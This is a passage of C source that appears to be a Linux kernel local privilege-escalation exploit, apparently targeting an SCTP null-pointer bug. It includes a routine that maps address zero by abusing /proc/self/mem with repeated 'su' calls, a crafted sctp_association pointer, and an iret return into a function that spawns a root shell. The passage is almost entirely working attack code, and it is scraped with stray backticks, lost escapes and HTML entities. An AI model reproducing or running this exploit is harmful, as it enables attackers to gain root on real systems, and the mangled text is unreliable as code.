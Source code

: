 ```

        "pushl   $shell;"

        "iret;");

`}`



void shell()

`{`

        printf("rootn");

        system("/bin/sh");

        exit(0);

`}`



void mmap_zero()

`{`

    unsigned long addr = (unsigned long)mmap((void *)0x10000,0x1000,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_PRIVATE|MAP_ANONYMOUS|MAP_GROWSDOWN|MAP_FIXED, -1, 0);

        if (addr != 0x10000)

                err(2,"mmap failed");

        int fd = open("/proc/self/mem",O_RDWR);

        if (fd == -1)

                err(2,"open mem failed");

        char cmd[0x100] = `{`0`}`;

        sprintf(cmd, "su &gt;&amp;%d &lt; /dev/null", fd);

        while (addr)

        `{`

                addr -= 0x1000;

                if (lseek(fd, addr, SEEK_SET) == -1)

                        err(2, "lseek failed");

                system(cmd);

        `}`

        printf("contents:%sn",(char *)1);



    struct sctp_association * sctp_ptr = (struct sctp_association *)0xbc;
```